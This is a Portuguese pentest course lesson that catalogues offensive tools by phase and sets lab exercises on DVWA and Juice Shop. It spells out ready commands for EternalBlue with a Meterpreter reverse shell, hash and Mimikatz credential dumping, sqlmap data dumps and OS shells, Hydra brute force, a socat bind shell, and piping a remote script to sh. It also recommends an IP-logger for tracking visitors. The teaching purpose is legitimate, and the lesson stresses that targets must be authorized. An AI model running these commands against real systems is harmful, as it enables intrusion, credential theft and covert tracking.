

# Ferramentas Diversas

> [!quote] Canivete Suíço
> *Uma coleção de ferramentas úteis para diversas situações em segurança da informação.*

> [!warning] Uso Legal e Ético
> O uso de ferramentas ofensivas **sem autorização explícita** é crime previsto no **Art. 154-A do Código Penal Brasileiro** ("Invasão de Dispositivo Informático"), com pena de reclusão de 1 a 4 anos e multa. Toda prática desta aula deve ocorrer em **laboratório controlado** ou em alvos para os quais você possui **autorização por escrito**. Documente sempre o escopo, as regras de engajamento (Rules of Engagement) e as ações realizadas.

---

## 🗺️ Panorama Geral: Fases do Pentest e Ferramentas

O teste de invasão segue metodologias reconhecidas internacionalmente. As principais são:

- **PTES** (Penetration Testing Execution Standard): 7 fases, do planejamento à geração de relatório.
- **OWASP WSTG** (Web Security Testing Guide): foco em aplicações web, checklist detalhada de vulnerabilidades.
- **NIST SP 800-115**: padrão formal para ambientes corporativos e de conformidade.
- **MITRE ATT&CK**: framework de táticas, técnicas e procedimentos (TTPs) de atacantes reais, útil para emulação adversária em red team.

A combinação mais usada na prática em 2026 é: **PTES para o engajamento, OWASP para web e ATT&CK para emulação de ameaças**.



---

## 🔍 Fase 1: Reconhecimento (Reconnaissance)

> [!info] Reconhecimento Passivo vs. Ativo
> **Passivo:** coleta de informações sem interação direta com o alvo (OSINT). **Ativo:** interação direta com sistemas do alvo, podendo gerar logs.

### theHarvester: OSINT de E-mails, Subdomínios e Hosts

Ferramenta essencial para reconhecimento passivo: coleta e-mails, subdomínios, IPs e nomes de hosts a partir de fontes públicas (Google, Bing, LinkedIn, Shodan, etc.).

```bash
# Coletar e-mails e subdomínios de um domínio usando múltiplas fontes
theHarvester -d alvo.com.br -b google,bing,linkedin -l 500

# Usar Shodan como fonte (requer API key)
theHarvester -d alvo.com.br -b shodan
```

### recon-ng: Framework de OSINT Modular

Framework modular para reconhecimento, semelhante ao Metasploit, mas focado em OSINT.

```bash
# Iniciar recon-ng
recon-ng

# Dentro do framework: carregar módulo de busca de contatos
marketplace install recon/domains-contacts/whois_pocs
modules load recon/domains-contacts/whois_pocs
options set SOURCE alvo.com.br
run
```

### Shodan: Motor de Busca para Dispositivos Conectados

Shodan indexa dispositivos IoT, câmeras, servidores e sistemas SCADA expostos na internet. Útil para reconhecimento passivo de infraestrutura.

- Site: [shodan.io](https://www.shodan.io/)
- Filtros úteis: `hostname:alvo.com.br`, `port:3389 country:BR`, `org:"Nome da Empresa"`

### Maltego: Mapeamento Visual de Relações (OSINT)

Ferramenta gráfica para correlacionar entidades: domínios, IPs, pessoas, organizações. Muito usada em inteligência corporativa e investigações.

```bash
# Instalar no Kali (Community Edition gratuita)
apt install maltego
```

---

## 📡 Fase 2: Varredura e Enumeração 🔎

> [!success] Ferramentas de Varredura
> Nesta fase, o objetivo é mapear portas abertas, serviços em execução, versões de software e possíveis vetores de ataque.

### nmap: O Canivete Suíço da Varredura de Rede

O **nmap** é a ferramenta mais usada em reconhecimento ativo. Permite descobrir hosts ativos, portas abertas, serviços, versões e até o sistema operacional.

```bash
# Descoberta de hosts na rede (ping scan)
nmap -sn 192.168.1.0/24

# Varredura de portas comuns com detecção de serviço e versão
nmap -sV -sC 192.168.1.10

# Varredura completa: todas as portas, scripts NSE, versões, OS
nmap -A -p- 192.168.1.10

# Varredura furtiva SYN (requer root)
sudo nmap -sS 192.168.1.10

# Exportar resultado para XML (útil para relatórios)
nmap -oX resultado.xml 192.168.1.10

# Varredura com script específico (ex: verificar SMB)
nmap --script smb-vuln-ms17-010 192.168.1.10
```

> [!tip] Scripts NSE
> O nmap possui centenas de scripts NSE (Nmap Scripting Engine) em `/usr/share/nmap/scripts/`. Explore com `nmap --script-help "*vuln*"`.

### gobuster: Força Bruta de Diretórios e Subdomínios

Gobuster é escrito em Go e realiza enumeração por força bruta de diretórios web, arquivos, subdomínios DNS e buckets S3. Ainda amplamente utilizado em 2026 por ser rápido e simples.

```bash
# Enumeração de diretórios em aplicação web
gobuster dir -u http://192.168.1.10 -w /usr/share/wordlists/dirb/common.txt

# Enumeração com extensões específicas
gobuster dir -u http://192.168.1.10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt

# Enumeração de subdomínios
gobuster dns -d alvo.com.br -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt

# Enumeração de virtual hosts
gobuster vhost -u http://alvo.com.br -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

### ffuf: Fuzzer Web de Alta Performance (Padrão em 2026)

O **ffuf** (Fuzz Faster U Fool) é escrito em Go e se tornou o fuzzer web preferido a partir de 2022, substituindo dirb e gobuster na maioria dos fluxos. Suporta fuzzing de diretórios, parâmetros, cabeçalhos, corpos POST e endpoints de API.

```bash
# Fuzzing de diretórios
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.1.10/FUZZ

# Fuzzing com extensões
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.1.10/FUZZ -e .php,.html,.txt

# Fuzzing de parâmetros GET
ffuf -w params.txt -u "http://192.168.1.10/search?FUZZ=teste"

# Fuzzing de virtual hosts
ffuf -w subdomains.txt -u http://192.168.1.10 -H "Host: FUZZ.alvo.com.br" -fs 1234

# Filtrar respostas por tamanho (remover falsos positivos)
ffuf -w wordlist.txt -u http://192.168.1.10/FUZZ -fs 0,4242

# Salvar resultado em JSON
ffuf -w wordlist.txt -u http://192.168.1.10/FUZZ -o resultado.json -of json
```

### Nikto: Scanner de Vulnerabilidades Web

Nikto verifica servidores e aplicações web em busca de arquivos perigosos conhecidos, configurações desatualizadas, cabeçalhos HTTP inseguros e versões vulneráveis.

```bash
# Varredura básica
nikto -h http://192.168.1.10

# Com autenticação HTTP Basic
nikto -h http://192.168.1.10 -id usuario:senha

# Varredura em porta específica
nikto -h 192.168.1.10 -p 8080

# Salvar resultado em HTML
nikto -h http://192.168.1.10 -o relatorio.html -Format html
```

### WhatWeb: Fingerprinting de Tecnologias Web

Identifica CMS (WordPress, Joomla), frameworks, linguagens de servidor, versões e plugins.

```bash
# Identificação básica
whatweb http://192.168.1.10

# Modo agressivo (mais detalhado)
whatweb -a 3 http://192.168.1.10

# Varredura de múltiplos alvos
whatweb --input-file alvos.txt
```

---

## 💥 Fase 3: Análise de Vulnerabilidades e Exploração 🎯

> [!danger] Atenção
> As ferramentas desta seção só devem ser usadas em **ambientes de laboratório** ou com **autorização por escrito**. O uso não autorizado é crime (Art. 154-A CP).

### Metasploit Framework: A Plataforma de Exploração

O Metasploit é o framework de exploração mais completo do mundo. Possui mais de 2.000 exploits, centenas de payloads, encoders e módulos de pós-exploração (keyloggers, Mimikatz, pivoting).

```bash
# Iniciar o console do Metasploit
msfconsole

# Dentro do msfconsole:

# Buscar exploit para uma vulnerabilidade
search ms17-010

# Usar um módulo
use exploit/windows/smb/ms17_010_eternalblue

# Ver opções do módulo
show options

# Configurar alvo
set RHOSTS 192.168.1.10

# Configurar payload
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100

# Executar
run

# Dentro do Meterpreter (pós-exploração):
sysinfo          # Informações do sistema
getuid           # Usuário atual
getsystem        # Tentar escalar para SYSTEM
hashdump         # Extrair hashes de senha
shell            # Abrir shell do SO
upload arquivo   # Enviar arquivo ao alvo
download arquivo # Baixar arquivo do alvo
```

> [!tip] searchsploit: Busca Offline de Exploits
> O `searchsploit` permite buscar exploits no banco do Exploit-DB sem internet.
> ```bash
> searchsploit apache 2.4
> searchsploit -x exploits/linux/remote/12345.py  # Ver código
> searchsploit -m exploits/linux/remote/12345.py  # Copiar para o diretório atual
> ```

### sqlmap: Automação de SQL Injection

Detecta e explora automaticamente vulnerabilidades de SQL Injection em parâmetros de aplicações web.

```bash
# Teste básico em URL com parâmetro
sqlmap -u "http://192.168.1.10/page.php?id=1"

# Testar todos os parâmetros
sqlmap -u "http://192.168.1.10/page.php?id=1" --level=3 --risk=2

# Enumerar bancos de dados
sqlmap -u "http://192.168.1.10/page.php?id=1" --dbs

# Enumerar tabelas de um banco
sqlmap -u "http://192.168.1.10/page.php?id=1" -D nome_banco --tables

# Despejar conteúdo de uma tabela
sqlmap -u "http://192.168.1.10/page.php?id=1" -D nome_banco -T usuarios --dump

# Testar requisição POST (salvar com Burp e usar -r)
sqlmap -r request.txt --dbs

# Tentar obter shell no servidor
sqlmap -u "http://192.168.1.10/page.php?id=1" --os-shell
```

### Burp Suite: Proxy e Analisador de Aplicações Web

O Burp Suite é a suíte mais completa para testes de segurança em aplicações web. Intercepta, modifica e repete requisições HTTP/HTTPS.

**Módulos principais:**
- **Proxy:** intercepta requisições entre o browser e o servidor.
- **Repeater:** modifica e reenvia requisições manualmente.
- **Intruder:** automação de ataques (brute force, fuzzing).
- **Scanner (Pro):** varredura automática de vulnerabilidades.
- **Decoder:** codifica/decodifica dados (Base64, URL encoding, etc.).

```bash
# Iniciar no Kali
burpsuite

# Configurar o browser para usar proxy: 127.0.0.1:8080
# Instalar certificado do Burp no browser para interceptar HTTPS
```

> [!tip] Burp Suite Community vs. Pro
> A versão Community é gratuita e inclui Proxy, Repeater, Decoder e Intruder (limitado). A versão Pro adiciona Scanner automático e Intruder sem limitações.

### Hydra: Força Bruta de Autenticação

Hydra realiza ataques de força bruta e dicionário contra serviços de autenticação: SSH, FTP, HTTP, SMB, RDP, MySQL, SMTP, entre outros.

```bash
# Força bruta SSH com lista de senhas
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10

# Força bruta com lista de usuários e senhas
hydra -L users.txt -P passwords.txt ssh://192.168.1.10

# Força bruta em formulário HTTP POST
hydra -l admin -P rockyou.txt 192.168.1.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:Senha incorreta"

# Força bruta FTP
hydra -l ftp_user -P passwords.txt ftp://192.168.1.10

# Força bruta RDP (Remote Desktop)
hydra -l administrator -P passwords.txt rdp://192.168.1.10
```

> [!warning] Dicionários de Senhas
> O `rockyou.txt` é o wordlist mais famoso para testes. No Kali: `/usr/share/wordlists/rockyou.txt.gz` (descompactar com `gunzip`). A coleção **SecLists** (disponível em `/usr/share/wordlists/SecLists/` ou no GitHub) é ainda mais abrangente.

---

## 🔐 Fase 4: Pós-Exploração e Escalada de Privilégios ⬆️

> [!info] Pós-Exploração
> Após obter acesso inicial, o objetivo é: manter persistência, escalar privilégios, mover-se lateralmente pela rede e exfiltrar dados de interesse (tudo dentro do escopo autorizado).

### LinPEAS e WinPEAS: Enumeração de Vetores de Escalada

Scripts de enumeração automática para identificar vetores de escalada de privilégios em sistemas Linux e Windows.

```bash
# LinPEAS: executar no alvo Linux após obter shell
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Ou transferir e executar
wget http://SEU_IP/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas_output.txt

# WinPEAS: executar no alvo Windows (via Meterpreter ou shell)
# Transferir winPEAS.exe e executar
.\winPEAS.exe
```

> [!tip] GTFOBins e LOLBAS
> **GTFOBins** ([gtfobins.github.io](https://gtfobins.github.io)) é um catálogo de binários Unix que podem ser usados para escalar privilégios ou contornar restrições. **LOLBAS** ([lolbas-project.github.io](https://lolbas-project.github.io)) é o equivalente para Windows. Consulte ao encontrar binários SUID ou permissões sudo incomuns.

### BloodHound: Mapeamento de Active Directory

BloodHound é uma ferramenta essencial para testes em ambientes Windows com Active Directory. Usa teoria de grafos para visualizar e encontrar caminhos de ataque, incluindo rotas de escalada de privilégios e movimentação lateral.

```bash
# Instalar BloodHound e neo4j no Kali
apt install bloodhound neo4j

# Iniciar neo4j (banco de dados de grafos)
neo4j start

# Coletar dados do AD com SharpHound (executar no Windows alvo)
.\SharpHound.exe --CollectionMethods All

# Ou usar o coletor Python (sem precisar executar no Windows)
bloodhound-python -u usuario -p senha -d dominio.local -c All

# Iniciar BloodHound e importar o ZIP gerado pelo SharpHound
bloodhound
# Interface gráfica: importar arquivo ZIP e executar queries pré-definidas
# Ex: "Shortest Paths to Domain Admins"
```

### Mimikatz: Extração de Credenciais Windows

Mimikatz é a ferramenta mais famosa para extração de hashes, tickets Kerberos e senhas em texto claro da memória de processos Windows. Já está integrado ao Metasploit como módulo pós-exploração.

```bash
# Via Meterpreter (após exploração com Metasploit)
load kiwi
creds_all         # Extrair todas as credenciais
lsa_dump_sam      # Dump do banco SAM
lsa_dump_secrets  # Dump de segredos LSA
```

### John the Ripper: Quebra de Hashes

John the Ripper suporta centenas de formatos de hash: Unix crypt, MD5, SHA1/256/512, NTLM, bcrypt, Kerberos, entre outros.

```bash
# Quebrar hashes do arquivo /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Identificar formato do hash automaticamente
john --list=formats | grep -i md5

# Quebrar hash específico com formato definido
john --format=NT --wordlist=rockyou.txt hashes_ntlm.txt

# Retomar sessão interrompida
john --restore

# Ver senhas já quebradas
john --show hash.txt
```

### hashcat: Quebra de Hashes com GPU

Hashcat é a ferramenta de quebra de hashes mais rápida, usando a GPU para acelerar o processo. Suporta ataques de dicionário, força bruta, máscara e combinação.

```bash
# Identificar tipo do hash (uso online: hash-identifier ou hashid)
hashid '$1$xyz$hash...'

# Ataque de dicionário (modo -a 0)
hashcat -m 1000 -a 0 hashes_ntlm.txt rockyou.txt

# Ataque de máscara: senhas 8 chars, minúsculas + números
hashcat -m 1000 -a 3 hashes.txt '?l?l?l?l?d?d?d?d'

# Modos de hash comuns:
# -m 0    = MD5
# -m 100  = SHA1
# -m 1000 = NTLM (Windows)
# -m 1800 = sha512crypt (Linux /etc/shadow)
# -m 13100 = Kerberoasting (TGS-REP)
# -m 22000 = WPA2

# Ver resultado
hashcat -m 1000 hashes.txt --show
```

---

## 🌐 Fase 5: Ferramentas para Aplicações Web 🕸️

### OWASP Top 10: O Mapa das Vulnerabilidades Web

O **OWASP Top 10** é o referencial mais importante para segurança de aplicações web. Em 2021/2025, as categorias principais são:

| Posição | Categoria | Exemplos de Ferramentas |
|---------|-----------|------------------------|
| A01 | Controle de Acesso Quebrado | Burp Suite, ffuf |
| A02 | Falhas Criptográficas | testssl.sh, SSLScan |
| A03 | Injeção (SQL, XSS, etc.) | sqlmap, Burp Suite |
| A04 | Design Inseguro | Revisão manual |
| A05 | Configuração Incorreta | Nikto, nmap |
| A06 | Componentes Vulneráveis | retire.js, Dependency-Check |
| A07 | Falhas de Autenticação | Hydra, Burp Intruder |
| A08 | Falhas de Integridade de Software | Revisão manual |
| A09 | Falha de Log e Monitoramento | Revisão manual |
| A10 | SSRF (Server-Side Request Forgery) | Burp Suite |

### CyberChef: Análise e Transformação de Dados

CyberChef é a "faca suíça" para análise de dados. Codifica, decodifica, converte, analisa hashes, descomprime e transforma dados de dezenas de formas. Disponível online e offline.

- URL: [gchq.github.io/CyberChef](https://gchq.github.io/CyberChef)
- Uso típico: decodificar Base64, analisar JWT, converter hex, identificar formatos

### testssl.sh: Análise de Configuração TLS/SSL

```bash
# Analisar configuração SSL/TLS de um servidor
./testssl.sh https://alvo.com.br

# Verificar vulnerabilidades específicas (Heartbleed, POODLE, etc.)
./testssl.sh --vulnerable https://alvo.com.br
```

---

## 🔗 Rastreamento de IP e OSINT Online

> [!tip] IP Logger

[IP Logger: Encurtador de URL com Rastreamento](https://iplogger.org/pt/)

**Funcionalidades:**
- Encurtar URLs
- Rastrear cliques
- Capturar informações do visitante (IP, localização, dispositivo)

> [!warning] Use com responsabilidade e apenas para fins legítimos e com consentimento.

---

## 🌐 Ferramentas Online Úteis

> [!info] Utilidades Web

| Categoria | Ferramenta | URL |
|-----------|------------|-----|
| **Encode/Decode** | CyberChef | gchq.github.io/CyberChef |
| **Hashes** | CrackStation | crackstation.net |
| **DNS** | DNSdumpster | dnsdumpster.com |
| **Análise de arquivos** | VirusTotal | virustotal.com |
| **OSINT** | OSINT Framework | osintframework.com |
| **Geolocalização** | IPinfo | ipinfo.io |
| **OSINT gráfico** | Maltego | maltego.com |
| **IoT/Infra exposta** | Shodan | shodan.io |
| **Exploits** | Exploit-DB | exploit-db.com |
| **CVEs** | NVD | nvd.nist.gov |
| **Escala priv. Linux** | GTFOBins | gtfobins.github.io |
| **Escala priv. Windows** | LOLBAS | lolbas-project.github.io |
| **Hash identifier** | hash-identifier | online ou `hashid` no Kali |
| **Regex** | Regex101 | regex101.com |
| **Subdomains** | crt.sh | crt.sh |

---

## 🛠️ Ferramentas de Terminal

> [!success] CLI Tools Essenciais

| Ferramenta | Fase | Descrição | Comando Básico |
|------------|------|-----------|----------------|
| **curl** | Recon/Web | Requisições HTTP | `curl -I http://alvo.com` |
| **wget** | Geral | Download de arquivos | `wget http://alvo.com/arquivo` |
| **nc (netcat)** | Exploit/Pós | Canivete suíço de rede | `nc -lvnp 4444` (listener) |
| **tcpdump** | Recon | Captura de pacotes | `tcpdump -i eth0 -w captura.pcap` |
| **socat** | Pós-exploit | Relay e tunelamento | `socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash` |
| **jq** | Geral | Processar JSON | `curl api/endpoint | jq '.data[]'` |
| **Wireshark** | Recon/Análise | Análise de tráfego (GUI) | `wireshark` |
| **ncat** | Exploit | Netcat moderno (nmap) | `ncat -lvnp 4444 --ssl` |
| **openssl** | Web/Cripto | Testes TLS e criptografia | `openssl s_client -connect alvo:443` |
| **enum4linux** | Recon | Enumeração SMB/Windows | `enum4linux -a 192.168.1.10` |
| **smbclient** | Recon | Acesso a compartilhamentos SMB | `smbclient -L //192.168.1.10 -N` |
| **dig** | Recon | Consultas DNS | `dig axfr @ns.alvo.com alvo.com` (tentativa de zone transfer) |
| **whois** | Recon | Informações de domínio | `whois alvo.com.br` |

---

## 🖥️ Ambientes de Prática (Lab Targets)

> [!tip] Alvos de Laboratório Legais
> Para praticar sem cometer crime, use ambientes intencionalmente vulneráveis:

| Ambiente | Tipo | Instalação | Uso Principal |
|----------|------|------------|---------------|
| **DVWA** (Damn Vulnerable Web App) | Web | Docker: `docker run -p 80:80 vulnerables/web-dvwa` | SQL Injection, XSS, CSRF, LFI |
| **OWASP Juice Shop** | Web | Docker: `docker run -p 3000:3000 bkimminich/juice-shop` | OWASP Top 10 completo |
| **Metasploitable 2/3** | VM | VirtualBox/VMware | Exploração geral, Metasploit |
| **VulnHub** | VM | Download em vulnhub.com | Máquinas CTF diversas |
| **Hack The Box** | Online | hackthebox.com | Pentest real, CTF online |
| **TryHackMe** | Online | tryhackme.com | Trilhas guiadas para iniciantes |
| **PicoCTF** | Online | picoctf.org | CTF educacional |

---

## 📊 Catálogo Consolidado: Ferramentas por Fase

| Ferramenta | Fase | Tipo | Comando Básico | SO |
|------------|------|------|----------------|-----|
| **theHarvester** | Reconhecimento passivo | OSINT | `theHarvester -d alvo.com -b google` | Linux |
| **recon-ng** | Reconhecimento passivo | Framework OSINT | `recon-ng` | Linux |
| **Shodan** | Reconhecimento passivo | OSINT web | `shodan host 1.2.3.4` | Online/CLI |
| **Maltego** | Reconhecimento passivo | OSINT gráfico | `maltego` | Win/Lin/Mac |
| **nmap** | Varredura | Rede | `nmap -sV -sC 192.168.1.10` | Cross |
| **gobuster** | Varredura web | Fuzzing | `gobuster dir -u http://alvo -w wordlist.txt` | Linux |
| **ffuf** | Varredura web | Fuzzing | `ffuf -w wordlist.txt -u http://alvo/FUZZ` | Cross |
| **nikto** | Análise de vuln. | Web scanner | `nikto -h http://alvo` | Linux |
| **whatweb** | Varredura web | Fingerprinting | `whatweb http://alvo` | Linux |
| **Metasploit** | Exploração | Framework | `msfconsole` | Linux |
| **searchsploit** | Análise de vuln. | Exploit search | `searchsploit apache 2.4` | Linux |
| **Burp Suite** | Web | Proxy/Scanner | `burpsuite` | Cross |
| **sqlmap** | Exploração | SQL Injection | `sqlmap -u "http://alvo?id=1" --dbs` | Cross |
| **Hydra** | Exploração | Brute force | `hydra -l admin -P rockyou.txt ssh://alvo` | Linux |
| **LinPEAS** | Pós-exploração | Escala priv. Linux | `./linpeas.sh` | Linux |
| **WinPEAS** | Pós-exploração | Escala priv. Windows | `.\winPEAS.exe` | Windows |
| **BloodHound** | Pós-exploração | AD analysis | `bloodhound` | Linux/Win |
| **Mimikatz** | Pós-exploração | Credenciais | Via Metasploit: `load kiwi` | Windows |
| **John the Ripper** | Pós-exploração | Hash cracking | `john --wordlist=rockyou.txt hashes.txt` | Cross |
| **hashcat** | Pós-exploração | Hash cracking GPU | `hashcat -m 1000 -a 0 hashes.txt rockyou.txt` | Cross |
| **netcat** | Pós-exploração | Shell reverso | `nc -lvnp 4444` | Cross |
| **Wireshark** | Análise | Tráfego de rede | `wireshark` | Cross |
| **CyberChef** | Análise | Transformação dados | Navegador | Online |
| **tcpdump** | Análise | Captura | `tcpdump -i eth0` | Linux |

---

## 📱 Apps Úteis

> [!info] Aplicativos Móveis

| App | Plataforma | Uso |
|-----|------------|-----|
| **Fing** | iOS/Android | Scanner de rede |
| **Termux** | Android | Terminal Linux |
| **WiFi Analyzer** | Android | Análise de redes Wi-Fi |
| **nzyme** | Android | Monitoramento 802.11 |

---

## 🧪 Atividades Práticas

> [!example] 🧪 Atividade 1: Instalando e Rodando ffuf, Fuzzing de Diretórios no DVWA
>
> **Objetivo:** instalar o ffuf e realizar fuzzing de diretórios em um alvo de laboratório (DVWA).
>
> **Pré-requisito:** DVWA rodando localmente via Docker.
>
> ```bash
> # 1. Subir o DVWA no Docker (se ainda não estiver rodando)
> docker run -d -p 80:80 vulnerables/web-dvwa
>
> # 2. Instalar ffuf (já vem no Kali; se não tiver):
> sudo apt install ffuf
> # Ou via Go:
> go install github.com/ffuf/ffuf/v2@latest
>
> # 3. Verificar instalação
> ffuf -V
>
> # 4. Realizar fuzzing de diretórios no DVWA
> ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost/FUZZ
>
> # 5. Filtrar resultados: exibir só respostas HTTP 200 e 301
> ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost/FUZZ -mc 200,301
>
> # 6. Buscar arquivos .php especificamente
> ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost/FUZZ -e .php -mc 200
> ```
>
> **Resultado esperado:** o ffuf listará diretórios e arquivos do DVWA como `/login.php`, `/setup.php`, `/dvwa/`, `/config/`, entre outros. Compare com o que você consegue acessar no browser.
>
> **Reflexão:** o que cada diretório encontrado revela sobre a estrutura da aplicação? Algum deles expõe informações sensíveis?

> [!example] 🧪 Atividade 2: Montando Seu Toolkit Pessoal por Fase do Pentest
>
> **Objetivo:** cada aluno deve construir sua própria tabela de toolkit, escolhendo ao menos 2 ferramentas por fase e justificando a escolha.
>
> **Instruções:**
> 1. Copie o template abaixo em seu caderno/Obsidian.
> 2. Para cada fase, escolha as ferramentas que prefere (pode incluir ferramentas desta aula ou outras que pesquisar).
> 3. Escreva um comando básico real para cada ferramenta escolhida.
> 4. Apresente para a turma e justifique suas escolhas.
>
> **Template de Toolkit Pessoal:**
>
> | Fase | Ferramenta 1 | Comando | Ferramenta 2 | Comando |
> |------|-------------|---------|-------------|---------|
> | Reconhecimento passivo | | | | |
> | Varredura de rede | | | | |
> | Varredura web | | | | |
> | Análise de vulnerabilidades | | | | |
> | Exploração | | | | |
> | Pós-exploração / Escalada | | | | |
> | Cracking de senhas | | | | |
> | Relatório / Evidências | | | | |
>
> **Dica:** não existe toolkit único certo. O importante é conhecer os pontos fortes de cada ferramenta e quando aplicar cada uma.

> [!example] 🧪 Atividade 3: Reconhecimento com gobuster no Juice Shop
>
> **Objetivo:** usar o gobuster para descobrir endpoints ocultos no OWASP Juice Shop, depois validar manualmente no browser.
>
> **Pré-requisito:** Juice Shop rodando localmente.
>
> ```bash
> # 1. Subir o Juice Shop
> docker run -d -p 3000:3000 bkimminich/juice-shop
>
> # 2. Enumeração básica de diretórios
> gobuster dir -u http://localhost:3000 -w /usr/share/wordlists/dirb/common.txt
>
> # 3. Enumeração com extensão .js (Juice Shop usa muito JavaScript)
> gobuster dir -u http://localhost:3000 -w /usr/share/wordlists/dirb/common.txt -x js,json,txt
>
> # 4. Tentar encontrar endpoints de API
> gobuster dir -u http://localhost:3000/api -w /usr/share/wordlists/dirb/common.txt
>
> # 5. Comparar com ffuf (mesma tarefa, ferramenta diferente)
> ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost:3000/FUZZ -mc 200,301,302
> ```
>
> **Resultado esperado:** endpoints como `/api/Users`, `/ftp/`, `/assets/`, `/metrics`, e rotas de admin ocultas. Alguns diretórios permitem listar arquivos, o que já é uma vulnerabilidade de configuração.
>
> **Entrega:** um relatório simples com: lista de endpoints encontrados, status HTTP de cada um, e quais representam risco (ex: FTP público, endpoints de admin sem autenticação).

---

## ⚠️ Considerações Éticas e Legais

> [!danger] Uso Ético e Responsável
> - Use ferramentas **apenas em alvos autorizados** (laboratório, bug bounty com escopo definido, contrato assinado).
> - Rastreamento de pessoas sem consentimento é **ilegal** (Lei Geral de Proteção de Dados, Lei 13.709/2018).
> - Ataque a sistemas sem autorização é crime pelo **Art. 154-A do Código Penal** (pena: 1 a 4 anos + multa).
> - Sempre **documente suas atividades** durante pentests: escopo, comandos, evidências, horários.
> - Em projetos de pesquisa ou TCC, obtenha aprovação do Comitê de Ética quando aplicável.
> - A divulgação responsável de vulnerabilidades (responsible disclosure) é a prática correta ao encontrar falhas em sistemas reais.

> [!quote] Ética em Segurança
> *"A diferença entre um pentester e um criminoso não é o conhecimento, são a autorização e a intenção."*

---

> [!note] 📚 Fontes (2026)
>
> - [25 Top Penetration Testing Tools for Kali Linux in 2026 (StationX)](https://www.stationx.net/penetration-testing-tools-for-kali-linux/)
> - [The Most Popular Penetration Testing Tools in 2026 (PlexTrac)](https://plextrac.com/the-most-popular-penetration-testing-tools-this-year/)
> - [Penetration Testing Tools: The 12 Essentials for 2026 (HackerDNA)](https://hackerdna.com/blog/penetration-testing-tools)
> - [How to Start Pentesting in 2026, Complete Beginner's Guide (PentestMindMap)](https://pentestmindmap.com/guide-start-pentesting)
> - [Penetration Testing Methodology 2025, Complete Guide (DeepStrike)](https://deepstrike.io/blog/penetration-testing-methodology)
> - [OWASP Web Security Testing Guide v4.1 (OWASP)](https://owasp.org/www-project-web-security-testing-guide/v41/3-The_OWASP_Testing_Framework/1-Penetration_Testing_Methodologies)
> - [Top Penetration Testing Methodologies (StationX)](https://www.stationx.net/penetration-testing-methodologies/)
> - [FFUF Cheat Sheet (pentesting.site)](https://pentesting.site/cheat-sheets/ffuf/)
> - [Kali Linux Tools (kali.org)](https://www.kali.org/tools/)
> - [OWASP Top 10 (owasp.org)](https://owasp.org/www-project-top-ten/)
> - [GTFOBins (gtfobins.github.io)](https://gtfobins.github.io)
> - [LOLBAS Project (lolbas-project.github.io)](https://lolbas-project.github.io)
